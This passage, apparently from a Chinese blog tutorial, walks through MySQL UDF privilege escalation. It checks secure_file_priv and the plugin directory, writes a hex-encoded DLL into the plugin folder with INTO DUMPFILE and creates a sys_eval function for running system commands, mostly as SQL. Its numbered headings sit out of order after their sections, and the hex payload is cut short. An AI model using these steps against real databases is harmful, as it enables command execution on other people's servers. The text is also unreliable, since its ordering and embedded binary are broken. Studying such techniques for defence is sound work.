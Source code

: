 ```
select Host,user,plugin from mysql.user where user = substring_index(user(),'@',1);
        当 plugin 的值为空时不可提权
        当 plugin 值为 mysql_native_password 时可通过账户连接提权
```

我们先查看 secure_file_priv 的值是否为空，因为只有为空我们才能继续下面的提权步骤。

*   如果 secure_file_priv 为 NULL 是不能写入导出文件的。

![](https://img-blog.csdnimg.cn/20190922232119797.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

*   如果 secure_file_priv 没有具体的值，则可以写入导出文件。

![](https://img-blog.csdnimg.cn/2019092223241953.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

*    secure_file_priv 的值在 MySQL 数据库的安装目录的 my.ini 文件中配置。

![](https://img-blog.csdnimg.cn/2019092223262749.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

**二：查看 plugin 的值**

但是实际测试发现 UDF 提权成功与否与该值无关。

```
show variables like '%compile%';             #查看主机版本及架构
show variables like 'plugin%';               #查看 plugin 目录
```

![](https://img-blog.csdnimg.cn/20190922232744345.png)

**三：查看系统架构以及 plugin 目录**

```
create table temp(data longblob);
insert into temp(data) values (0x4d5a90000300000004000000ffff0000b800000000000000400000000000000000000000000000000000000000000000000000000000000000000000f00000000e1fba0e00b409cd21b8014ccd21546869732070726f6772616d2063616e6e6f742062652072756e20696e20444f53206d6f64652e0d0d0a2400000000000000000000000000000);
update temp set data = concat(data,0x33c2ede077a383b377a383b377a383b369f110b375a383b369f100b37da383b369f107b375a383b35065f8b374a383b377a382b35ba383b369f10ab376a383b369f116b375a383b369f111b376a383b369f112b376a383b35269636877a383b300000000000000000000000000000000504500006486060070b1834b00000000);
select data from temp into dumpfile "G:\\phpstudy_pro\\Extensions\\MySQL5.7.26\\lib\\plugin\\udf.dll";
create function sys_eval returns string soname 'udf.dll';   #创建函数sys_eval
```

![](https://img-blog.csdnimg.cn/20190922233030922.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

这里是 x64 位的系统，我们可以去 kali 中 /usr/share/metasploit-framework/data/exploits/mysql/ 目录下载 64 位的 .dll 文件。(由于我这里 MSF 更改过，所以路径有所不同)

![](https://img-blog.csdnimg.cn/20190922233138843.png)

**四：将 dll 文件写入 plugin 目录, 并且创建函数**

创建一个表并将二进制数据插入到十六进制编码流中。你可以通过 insert 语句或将其分解为多个部分，然后通过 update 语句拼接二进制数据。
